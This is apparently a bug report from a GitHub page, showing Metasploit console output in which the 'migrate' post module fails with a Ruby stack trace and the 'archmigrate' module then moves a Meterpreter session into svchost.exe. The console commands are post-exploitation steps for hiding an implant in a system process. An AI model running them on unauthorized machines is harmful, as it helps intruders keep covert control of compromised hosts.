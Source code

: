 ```
   SESSION                     yes       The session to run this module on.
   SPAWN      true             no        Spawn process to migrate to. If set, notepad.exe is used.

msf5 post(windows/manage/migrate) > set SESSION 1
SESSION => 1
msf5 post(windows/manage/migrate) > run

[*] Running module against WIN-OMCNBKR66MN
[*] Current server process: Explorer.EXE (2236)
[-] Post failed: NoMethodError undefined method `downcase' for nil:NilClass
[-] Call stack:
[-]   /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:46:in `block in []'
[-]   /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:219:in `each'
[-]   /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:219:in `each_process'
[-]   /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:45:in `[]'
[-]   /usr/share/metasploit-framework/modules/post/windows/manage/migrate.rb:81:in `create_temp_proc'
[-]   /usr/share/metasploit-framework/modules/post/windows/manage/migrate.rb:47:in `run'
[*] Post module execution completed
```

```
msf5 post(windows/manage/migrate) > use post/windows/manage/archmigrate
msf5 post(windows/manage/archmigrate) > show options

Module options (post/windows/manage/archmigrate):

   Name           Current Setting                   Required  Description
   ----           ---------------                   --------  -----------
   EXE            C:\windows\sysnative\svchost.exe  yes       The executable to start and migrate into
   FALLBACK       true                              yes       If the selected migration executable does not exist fallback to a sysnative file
   IGNORE_SYSTEM  false                             yes       Migrate even if you have SYSTEM privileges
   SESSION                                          yes       The session to run this module on.

msf5 post(windows/manage/archmigrate) > set SESSION 1
SESSION => 1
msf5 post(windows/manage/archmigrate) > run

[*] You're not running as SYSTEM. Moving on...
[*] The meterpreter is not the same architecture as the OS! Upgrading!
[*] Starting new x64 process C:\windows\sysnative\svchost.exe
[+] Got pid 2424
[*] Migrating..
[+] Success!
[*] Post module execution completed
```
